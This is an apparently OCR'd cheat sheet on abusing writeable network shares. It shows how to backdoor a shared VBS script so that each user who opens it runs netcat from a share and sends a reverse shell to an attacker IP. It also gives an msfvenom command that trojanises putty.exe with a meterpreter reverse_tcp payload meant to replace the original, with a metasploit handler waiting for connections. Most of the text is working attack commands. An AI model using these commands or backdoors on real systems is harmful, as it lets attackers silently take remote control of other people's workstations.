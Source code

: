 # ABUSING WRITEABLE SHARES

### Find shortcut to a script or executable file hosted on a network share.

# BACKDOORING .vbs SCRIPTS

#### CreateObject("WScript.Shell").

#### Run "cmd.exe /c copy /Y \\TARGET_IP\MYSHARE\nc64.exe %tmp & %tmp\nc64.exe -e cmd.exe ATTACK_IP PORT", O, True

### Copies binary from the share to the user's workstation %tmp directory and send a reverse shell back to attacker whenever a user opens the shared VBS script.

# BACKDOORING .exe FILES

#### 1) Download binary from share

#### 2) 

    msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=ATTACK_IP lport=PORT -b "\x00" -f exe -o puttyX.exe

#### 3) Replace file and wait for connections with exploit/multi/handler (metasploit)
